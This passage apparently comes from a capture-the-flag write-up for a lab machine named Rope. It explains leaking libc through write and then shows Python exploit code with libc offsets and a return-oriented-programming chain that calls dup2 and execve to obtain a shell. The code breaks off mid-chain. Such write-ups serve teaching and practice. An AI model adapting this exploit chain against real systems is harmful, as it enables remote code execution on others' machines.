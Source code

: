 ```
```

Before this code, `exploit` consists of junk, the canary, and rbp. So I start a rop chain with the gadgets to call `write`. When I send it, I get back the libc address of `write`.

### Stage 2: Shell

Now with the libc address known, I can write a rop chain that will give me execution. The commands used to get the offsets are shown in comments below, run both locally and on Rope:

```

### Stage 2: Shell
# build rop

if target == 'local':
# readelf -s /usr/lib/x86_64-linux-gnu/libc-2.28.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
#1010: 00000000000eabf0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
#1506: 00000000000c6a00    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
#2267: 00000000000ea4f0   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
# strings -a -t x /usr/lib/x86_64-linux-gnu/libc-2.28.so | grep /bin/sh
# 181519 /bin/sh
    dup2_offset   = 0xeabf0
    execve_offset = 0xc6a00
    write_offset  = 0xea4f0
    binsh_offset  = 0x181519

else:
# readelf -s libc.so.6_ | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
#   999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
#  1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
#  2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
# strings -a -t x libc.so.6_  | grep /bin/sh
# 1b3e9a /bin/sh
    dup2_offset   = 0x1109a0
    execve_offset = 0xe4e30
    write_offset  = 0x110140
    binsh_offset  = 0x1b3e9a

libc_base = u64(libc_write) - write_offset
dup2 = p64(libc_base + dup2_offset)
binsh = p64(libc_base + binsh_offset)
execve = p64(libc_base + execve_offset)
log.success("Calculated addresses:")
print(f"    libc_base:          0x{libc_base:016x}")
print(f"    dup2:               0x{u64(dup2):016x}")
print(f"    execve:             0x{u64(execve):016x}")
print(f"    binsh:              0x{u64(binsh):016x}")

exploit =  junk + canary + rbp

# dup2(4,0)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
exploit += p64(0)
exploit += p64(0)
exploit += dup2

# dup2(4,1)
exploit += pop_rdi_ret
exploit += p64(4)
exploit += pop_rsi_r15_ret
```